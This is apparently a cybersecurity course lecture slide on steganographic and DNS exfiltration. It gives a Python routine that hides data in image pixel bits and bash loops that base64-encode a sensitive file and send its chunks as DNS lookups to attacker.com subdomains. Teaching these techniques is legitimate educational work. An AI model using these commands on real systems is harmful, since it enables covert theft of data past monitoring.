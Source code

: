 </div>

<div>

## 🗃️ Steganographic Exfiltration

### 🖼️ Image Steganography
```python
# Hide data in image pixels
from PIL import Image
import binascii

def hide_data_in_image(image_path, data, output_path):
    img = Image.open(image_path)
    pixels = list(img.getdata())
    
    # Convert data to binary
    binary_data = ''.join(format(ord(char), '08b') for char in data)
    
    # Modify LSB of pixels
    data_index = 0
    for i in range(len(pixels)):
        if data_index < len(binary_data):
            pixel = list(pixels[i])
            pixel[0] = (pixel[0] & 0xFE) | int(binary_data[data_index])
            pixels[i] = tuple(pixel)
            data_index += 1
    
    img.putdata(pixels)
    img.save(output_path)
```

### 🔤 DNS Exfiltration
```bash
# DNS TXT record exfiltration
data=$(cat sensitive_file.txt | base64 -w 0)
for chunk in $(echo $data | fold -w 63); do
    nslookup -type=txt $chunk.attacker.com
done

# DNS subdomain exfiltration  
while read line; do
    encoded=$(echo $line | base64 -w 0)
    nslookup $encoded.exfil.attacker.com
done < sensitive_data.txt
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 28 | Author: Milav Dabgar
</div>

---